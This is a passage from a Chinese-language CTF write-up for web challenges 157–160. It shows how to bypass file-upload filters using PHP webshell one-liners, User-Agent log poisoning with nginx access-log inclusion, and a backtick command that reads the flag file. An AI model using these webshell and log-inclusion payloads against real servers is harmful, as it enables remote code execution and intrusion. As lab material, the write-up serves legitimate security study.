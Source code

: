 可以用`{}`进行代替

## web157

### `考点：过滤php、[、{、;`

```
姿势一
<?=eval(array_pop($_POST))?>
姿势二
日志包含
UA头写入一句话木马
2.png内容
<?include '/var/log/nginx/access.log'?>
```

## web158

### `考点：过滤php、[、{、;、log`

```
姿势一
<?=eval(array_pop($_POST))?>
姿势二
日志包含
UA头写入一句话木马
2.png内容
<?include '/var/l'.'og/nginx/access.l'.'og'?>
```

## web159

### `考点：过滤php、[、{、;、log、(`

```
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(/i', $str);
}
```

```
同样进行日志包含或
<?=`tac ../f*`?>
```

## web160

### `考点：过滤php、[、{、;、log、(、空格、反引号`

过滤了空格可以用换行替换

%0d换行来代替空格
